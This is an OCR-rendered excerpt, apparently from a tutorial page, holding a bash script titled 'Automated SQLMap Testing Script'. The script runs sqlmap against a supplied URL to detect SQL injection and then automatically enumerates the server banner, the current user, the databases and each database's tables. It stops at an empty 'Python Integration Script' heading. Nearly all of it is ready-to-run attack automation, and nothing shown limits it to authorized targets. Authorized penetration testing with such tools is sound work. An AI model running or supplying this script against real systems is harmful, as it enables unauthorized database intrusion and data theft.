 ::: terminal-content
    #!/bin/bash
    # Automated SQLMap Testing Script

    TARGET_URL="$1"
    OUTPUT_DIR="sqlmap_results_$(date +%Y%m%d_%H%M%S)"

    if [[ -z "$TARGET_URL" ]]; then
        echo "Usage: $0 "
        exit 1
    fi

    mkdir -p "$OUTPUT_DIR"
    cd "$OUTPUT_DIR"

    # Phase 1: Initial vulnerability check
    echo "[*] Phase 1: Testing for SQL injection..."
    python3 /opt/sqlmap/sqlmap.py -u "$TARGET_URL" --batch --random-agent --level=3 --risk=2 > initial_test.log

    # Phase 2: Database enumeration if vulnerable
    if grep -q "vulnerable" initial_test.log; then
        echo "[+] Vulnerability found! Starting enumeration..."
        
        # Get basic info
        python3 /opt/sqlmap/sqlmap.py -u "$TARGET_URL" --banner --current-user --current-db --batch > basic_info.log
        
        # List databases
        python3 /opt/sqlmap/sqlmap.py -u "$TARGET_URL" --dbs --batch > databases.log
        
        # Extract database names
        DATABASES=$(grep -E '^\[\*\]' databases.log | sed 's/\[\*\] //' | grep -v 'information_schema\|mysql\|performance_schema')
        
        for db in $DATABASES; do
            echo "[*] Enumerating database: $db"
            python3 /opt/sqlmap/sqlmap.py -u "$TARGET_URL" -D "$db" --tables --batch > "${db}_tables.log"
        done
    else
        echo "[-] No SQL injection vulnerability found."
    fi
:::
:::

### Python Integration Script
